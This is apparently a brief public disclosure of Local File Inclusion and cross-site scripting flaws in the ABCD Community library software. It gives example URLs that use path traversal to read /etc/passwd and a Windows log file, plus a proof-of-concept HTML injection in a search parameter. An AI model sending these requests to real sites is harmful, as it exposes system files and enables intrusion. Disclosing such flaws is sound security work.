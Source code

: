 # Local File Inclusion and XSS in **ABCD Community**
## Vulnerable software: https://abcd-community.org/

There are two **Local File Inclusion** vulnerabilities in ABCD software:  
<br>
**show_image.php**   
**otros_sitios.php**

Examples:<br>
www[.]XXXXX[.]com[.]br/common/show_image.php?image=../../../../../../../etc/passwd&base=arquivo
<br>
www[.]XXXXX[.]com[.]br/abcd/opac/php/otros_sitios.php?sitio=C:/Windows/debug/NetSetup.log&submenu=N
<br>
<br>
<br>
A **XSS vulnerability** was found in the **Sub_Expresion** parameter on buscar_integrada.php file:
<br>
<br>
<br>
www[.]XXXXX[.]com[.]br/buscar_integrada.php?alcance=&IR_A=&campo=Se%EF%BF%BD%EF%BF%BDo&LastKey=fdsfadsa&base=arquivo&Diccio=4-1&**Sub_Expresion**=%22fda%3Cinput%3E%3Cinput%3Esfdafds%22&Sub_Expresiones=&Navegacion=&Expresion=&Campos=TW_+~~~+REF_+~~~+DAL_+~~~+FUL_+~~~+SEC_+~~~+SPL_+~~~+GDL_&Operadores=and+~~~+and+~~~+and+~~~+and+~~~+and+~~~+and&modo=1B&llamado_desde=avanzada.php&lang=pt&resaltar=S&prefijo=SEC_&Opcion=buscar_diccionario&Seleccionados=%22fdsaf%22

![image](https://www.guerrilhacibernetica.com.br/images/next.png?abcd)
